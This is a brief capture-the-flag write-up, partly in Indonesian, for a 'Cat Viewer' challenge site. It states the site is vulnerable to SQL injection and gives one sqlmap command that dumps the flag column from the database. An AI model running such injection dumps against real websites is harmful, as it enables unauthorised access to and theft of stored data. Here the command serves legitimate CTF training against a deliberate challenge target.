 # Cat Viewer

> I built a little web site to search through my archive of cat photos. I hid a little something extra in the database too. See if you can find it!

> https://nessus-catviewer.chals.io/

Ya website ini terdapat celah pada SQLi, langsung saja gunakan sqlmap untuk mencari flag pada database

```
sqlmap -r req.txt -T cats -C flag --dump --level 2 --risk 2 --dbms=SQLite --technique=BEUS
```
